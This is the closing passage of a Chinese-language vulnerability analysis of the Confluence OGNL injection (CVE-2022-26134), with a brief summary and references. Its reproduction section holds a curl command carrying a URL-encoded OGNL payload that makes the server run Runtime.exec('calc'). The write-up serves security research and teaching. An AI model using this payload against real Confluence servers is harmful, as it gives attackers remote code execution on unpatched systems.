 将 ${} 中的表达式提取出来执行，成功触发 OGNL Injection。

---

至此, 漏洞分析部分结束。 

整个过程中，不管是梳理 Conflunence 的 HTTP 请求的处理流程时"意外"发现 OGNL Sink ，还是从 Sink 逐步定位到 Source ，都还蛮有意思。

##### 漏洞复现

弹计算器

```
curl -kI "http://10.1.1.1:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22calc%22%29%7D/dashboard.action"
```

执行成功

![image-20221003041032768](./img/image-20221003041032768.png)

### 0x05 小结

漏洞分析还是有用的, 当对大部分漏洞原理都了如指掌, 挖洞其实也是水到渠成的事情。


参考:

1) https://commons.apache.org/proper/commons-ognl/
2) https://y4er.com/posts/cve-2022-26134-confluence-server-data-center-ognl-rce/
3) https://baike.baidu.com/item/webwork/486050

